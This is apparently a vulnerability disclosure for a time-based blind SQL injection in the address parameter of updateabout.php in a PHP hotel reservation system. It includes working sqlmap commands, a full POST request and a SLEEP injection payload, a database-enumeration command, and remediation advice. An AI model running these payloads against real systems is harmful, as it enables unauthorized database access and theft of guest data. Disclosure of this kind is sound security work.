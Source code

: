 # Online Hotel Reservation System In PHP With Source Code - SQL Injection in updateabout.php

## NAME OF AFFECTED PRODUCT(S)

- Online Hotel Reservation System In PHP With Source Code

## Vendor Homepage

- [Online Hotel Reservation System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-hotel-reservation-system-in-php-with-source-code/)

## AFFECTED AND/OR FIXED VERSION(S)

### submitter

- YoSheep

### VERSION(S)

- V1.0

### Software Link

- https://download.code-projects.org/details/f2af5165-f165-4d1c-9648-394dc5119f9d

## PROBLEM TYPE

### Vulnerability Type

- SQL injection

### Root Cause

- The updateabout.php component directly interpolates the address parameter into SQL statements without proper sanitization or use of prepared statements. This unsafe practice allows adversaries to inject crafted SQL payloads, thereby altering the intended query logic and executing arbitrary SQL commands against the backend database.

### Impact

Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

- During a security assessment of the *Online Hotel Reservation System In PHP With Source Code*, a critical SQL injection vulnerability was identified in the updateabout.php file. The flaw arises from insufficient validation of the address parameter, which is directly embedded into SQL queries. Exploitation of this flaw allows unauthenticated attackers to inject arbitrary SQL statements, gain access to sensitive data, escalate privileges, and potentially gain control of the application environment. Immediate remediation is strongly advised to mitigate the risk of exploitation.

## Vulnerability Details and Proof of Concept (PoC)

### Vulnerability type:

* Time-based blind SQL injection

### Vulnerability location:

* Parameter: address (POST)

### Proof of Concept Payloads

Using sqlmap, the injection can be demonstrated as follows:

```
python3 sqlmap.py -r ~/Desktop/sql_data.txt -p address

// sql_data.txt
POST /newhotel/admin/updateabout.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 63
Cache-Control: max-age=0
Origin: http://xxx.xxx.xxx.xxx
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.xxx.xxx.xxx/newhotel/admin/aboutus.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 459c73fc68b74c48fed06cd2049f9e72_ssl=664f4eeb-5d8e-4bb4-aa3e-ba03dd842b3a.acZ3bo2InCUweNQ83hgDkh4-uTI; PHPSESSID=bi4ddv20nbpset9r4ce8e39882
Connection: keep-alive

address=1
```

Example Findings:

```
---
Parameter: address (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: address=1' AND (SELECT 6684 FROM (SELECT(SLEEP(5)))zSuD) AND 'YyMl'='YyMl
---
```

![image-20250825141920564](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250825141920564.png)

### Attack Demonstration

An attacker can enumerate databases with the following command:

```
python3 sqlmap.py -r ~/Desktop/sql_data.txt -p address --dbs
```

Example Result:

Extracted list of databases from the backend MySQL server.

![image-20250825144105735](https://mac-pic-1314279731.cos.ap-nanjing.myqcloud.com/image-20250825144105735.png)

## Suggested Remediation

1. **Use Prepared Statements and Parameterized Queries**

   Implement parameterized queries (mysqli or PDO) to ensure user inputs are treated strictly as data, preventing SQL injection.

2. **Implement Input Validation and Sanitization**

   Validate incoming parameters against expected formats (e.g., numeric IDs). Reject or sanitize unexpected input before processing.

3. **Apply the Principle of Least Privilege**

   Restrict the privileges of the database account used by the application. Avoid using high-privilege accounts (e.g., root).

4. **Conduct Regular Security Audits**

   Periodically review source code and perform penetration testing to identify and remediate potential vulnerabilities.

5. **Upgrade Deprecated Libraries**

   Replace legacy mysql_* functions with mysqli or PDO, which provide better security support and long-term maintainability.